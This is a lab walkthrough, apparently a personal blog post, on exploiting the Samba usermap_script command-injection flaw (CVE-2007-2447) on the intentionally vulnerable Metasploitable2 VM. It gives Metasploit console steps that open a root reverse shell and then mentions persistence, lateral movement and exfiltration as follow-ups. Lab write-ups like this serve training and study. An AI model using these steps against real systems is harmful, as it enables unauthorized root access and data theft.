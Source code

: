 ## Metasploitable2 Port 139 SMB Exploit
**ZM** 
**November 11, 2024**

#### Port 139
Runs a NetBIOS Session Service and is often used by SMB (Server message block) protocol. SMB is a protocol primarily used for file sharing, printer sharing, and network browsing. Samba, the open source implementation of SMB, is widely used on linux systems to provide SMB functionality. 

#### Samba Usermap Script Vulnerability (CVE-2007-2447)
The vulnerability is a command injection flaw in Samba's usermap script. Samba allows admins to define custom mappings between Unix users and SMB users via the username map. However, a flaw in this feature allows an attacker to inject arbitrary commands by manipulating the script's output. 

Basic Vulnerbaility Flow:
1. Samba's `usermap` feature is used to map incoming SMB usernames to specific Unix accounts. 
2. By crafting a specially formatted username, an attacker can inject commands that Samba will execute on the system with the priveleges of the Samba service (often root)

#### High Level Strategy for Exploitation
1. Confirm that Samba is running and determine the version. You can use `smb_version` auxiliary scanner in Metasploit. 
2. If running a vulnerable version, use CVE-2007-2447
3. Use `usermap_script` in Metasploit to run the exploit and gain shell access


#### Walkthrough
On Kali, Launch Metasploit with `msfconsole`:

![Metasploit Launch Screen](assets/img/MS2_139_IMG1.png)

Search for the auxiliary SMB scanner with `search smb_version`:
![SMB Auxiliary Search](assets/img/MS2_139_IMG2.png)

Select it with `use 0` then enter the command `show options` to see the parameters:
![Select the scanner and show options](assets/img/MS2_139_IMG3.png)

This shows us that we just need to specify `RHOSTS`. We will enter the IP address of the Metasploitable2 target machine with `set RHOSTS <ipAddress>`. 

Then enter the command `exploit` to launch the scanner:
![Run the scanner](assets/img/MS2_139_IMG4.png)

This shows us that it's running Samba 3.0.20. This is compatible with CVE-2007-2447. 

Now, let's select the Samba exploit. Search `search cve-2007-2447`:
![Search for samba exploit](assets/img/MS2_139_IMG5.png)

Select it with `use 0`, then enter `show options` to see the parameters:
![Select the exploit and show options](assets/img/MS2_139_IMG6.png)

This shows us that we only need to set the RHOSTS. Do this with the same command from earlier `set RHOSTS <ipAddress>`

Next, enter `exploit` to launch the attack:

![Launch the exploit](assets/img/MS2_139_IMG7.png)

We have successfully opened a reverse shell on the target machine! Enter the command `whoami` to determine your level of privilege:
![whoami command](assets/img/MS2_139_IMG8.png)

Root access basically means we have free reign to do whatever we want on the machine. From here we can establish persistence, attempt lateral movement, or exfiltrate sensitive data.

